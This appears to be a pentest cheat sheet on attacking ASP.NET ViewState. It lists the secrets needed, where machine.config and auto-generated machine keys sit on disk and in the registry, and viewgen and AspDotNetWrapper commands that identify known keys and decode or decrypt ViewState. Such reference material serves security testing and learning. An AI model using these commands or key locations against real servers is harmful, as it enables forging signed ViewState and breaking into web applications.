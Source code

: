 Requirements
* machineKey **validationKey** and **decryptionKey**
* __VIEWSTATEGENERATOR cookies
* __VIEWSTATE cookies

Example of a machineKey from https://docs.microsoft.com/en-us/iis/troubleshoot/security-issues/troubleshooting-forms-authentication.

```xml
<machineKey validationKey="87AC8F432C8DB844A4EFD024301AC1AB5808BEE9D1870689B63794D33EE3B55CDB315BB480721A107187561F388C6BEF5B623BF31E2E725FC3F3F71A32BA5DFC" decryptionKey="E001A307CCC8B1ADEA2C55B1246CDCFE8579576997FF92E7" validation="SHA1" />
```

Common locations of **web.config** / **machine.config**
* 32-bit
    * C:\Windows\Microsoft.NET\Framework\v2.0.50727\config\machine.config
    * C:\Windows\Microsoft.NET\Framework\v4.0.30319\config\machine.config
* 64-bit
    * C:\Windows\Microsoft.NET\Framework64\v4.0.30319\config\machine.config
    * C:\Windows\Microsoft.NET\Framework64\v2.0.50727\config\machine.config
* in registry when **AutoGenerate** is enabled (extract with https://gist.github.com/irsdl/36e78f62b98f879ba36f72ce4fda73ab)
    * HKEY_CURRENT_USER\Software\Microsoft\ASP.NET\4.0.30319.0\AutoGenKeyV4  
    * HKEY_CURRENT_USER\Software\Microsoft\ASP.NET\2.0.50727.0\AutoGenKey


#### Identify known machine key

* Exploit with [Blacklist3r/AspDotNetWrapper](https://github.com/NotSoSecure/Blacklist3r)
* Exploit with [ViewGen](https://github.com/0xacb/viewgen)

```powershell
# --webconfig WEBCONFIG: automatically load keys and algorithms from a web.config file
# -m MODIFIER, --modifier MODIFIER: VIEWSTATEGENERATOR value
$ viewgen --guess "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkuVmqYhhtcnJl6Nfet5ERqNHMADI="
[+] ViewState is not encrypted
[+] Signature algorithm: SHA1

# --encrypteddata : __VIEWSTATE parameter value of the target application
# --modifier : __VIEWSTATEGENERATOR parameter value
$ AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata <real viewstate value> --purpose=viewstate --modifier=<modifier value> –macdecode
```

#### Decode ViewState

```powershell
$ viewgen --decode --check --webconfig web.config --modifier CA0B0334 "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="

$ .\AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --decrypt --purpose=viewstate  --modifier=CA0B0334 --macdecode

$ .\AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --decrypt --purpose=viewstate --modifier=6811C9FF --macdecode --TargetPagePath "/Savings-and-Investments/Application/ContactDetails.aspx" -f out.txt --IISDirPath="/"
```
